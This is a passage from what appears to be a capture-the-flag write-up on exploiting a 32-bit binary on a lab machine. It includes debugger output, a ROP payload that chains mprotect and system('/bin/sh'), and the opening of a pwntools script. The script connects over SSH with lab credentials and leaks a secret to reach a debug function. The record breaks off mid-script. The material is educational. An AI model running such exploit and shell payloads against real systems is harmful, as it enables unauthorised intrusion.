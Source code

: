 ```
Stopped reason: SIGSEGV
__libc_system (line=0xb7f759ab "/bin/sh") at ../sysdeps/posix/system.c:178
178     ../sysdeps/posix/system.c: No such file or directory.

```

The error code threw me for a minute, but then I looked at the address of `system`, 0xb7e54da0, and the range of libc that is no longer executable after the assembly above, 0xb7e54000 - 0xb7e55000. That assembly is to make it so that I can’t call `system`!

I looked at making a ROP payload that would make `system` executable again, and then call it, but that payload is 104 bytes long:

```

payload =  b"A" * 76             # 76
payload += p32(mprotect)         # +4 = 80
payload += p32(system)           # +4 = 84
payload += p32(protected)        # +4 = 88
payload += p32(protected_length) # +4 = 92
payload += p32(5)                # +4 = 96
payload += b'EXIT'               # +4 = 100
payload += p32(binsh)            # +4 = 104

```

There are things I could do to jump back into the buffer and keep going, but at this point, it’s just easier to go the intended path.

## Full Pwn Script

```

#!/usr/bin/env python3

import re
from pwn import *

sshConn = ssh(host="10.10.10.27", user="xalvas", password="18547936..*")
goodluck = sshConn.process("/home/xalvas/app/goodluck")
fn = f"/tmp/{randoms(10)}"

## Stage 1 - Leak hey.secret
log.info(f'Writing Stage 1 exploit to {fn}')
sshConn.upload_data(b"A" * 8 + p32(0x80002FF8), fn)
goodluck.sendline(fn)
goodluck.recv(4096)
goodluck.sendline("2")
resp = goodluck.recv(4096).decode()
secret = re.findall(r'debug info: (0x[0-9a-f]+)', resp)[0]
log.success(f"Found secret: {secret}")

## Stage 2 - Access Debug
log.info(f'Writing Stage 2 exploit to {fn}')
sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
goodluck.sendline("4")
goodluck.recv(4096)
goodluck.sendline(fn)
goodluck.recv(4096)
goodluck.sendline("3")
#resp = goodluck.recv(4096).decode()
resp = goodluck.recvuntil(b"Filename:  ").decode()

buff_addr = int(re.search(r'vulnerable pointer is at ([0-9a-f]+)', resp).group(1), 16)
```